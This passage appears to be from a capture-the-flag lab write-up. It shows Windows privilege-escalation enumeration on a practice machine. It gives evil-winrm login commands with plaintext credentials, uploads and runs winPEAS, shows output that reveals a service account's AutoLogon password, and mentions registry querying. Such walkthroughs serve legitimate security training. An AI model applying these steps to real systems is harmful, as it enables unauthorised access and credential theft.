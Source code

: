 **We get user.**

## Finding The Autologon Password

winPEAS stands for [Windows Privilege Escalation Awesome Scripts](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS).

Let's run it to automate initial privilege escalation enumeration.

Evil-winrm offers an easy way to get C# executables into a target machine. To so, we need to modify our initial command to include the folder with the winPEAS binary.

```
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23 -e /folder/withbinary/
*Evil-WinRM* PS C:\Users\FSmith\Documents> menu

   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/
              By: CyberVaca, OscarAkaElvis, Laox @Hackplayers  

[+] Bypass-4MSI
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary

*Evil-WinRM* PS C:\Users\FSmith\Documents> Invoke-Binary /folder/withbinary/winPEAS.exe
```

It returns a long output, but the red highlight makes it easy to spot the following.

```
[+] Looking for AutoLogon credentials(T1012)
  Some AutoLogon credentials were found!!
  DefaultDomainName             :  EGOTISTICALBANK
  DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
  DefaultPassword               :  Moneymakestheworldgoround!
  ```

If you do not want to use winPEAS, you can also find it through a [manual enumeration process](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md).

* Autologon information is stored in the HKLM [registry hive](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-hives). A hive includes a logical group of keys, subkeys, and values.
* To retrieve the information, we can use **reg** - [a console registry tool](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query).
* The `query` parameter lists the next tier of subkeys and their entries.

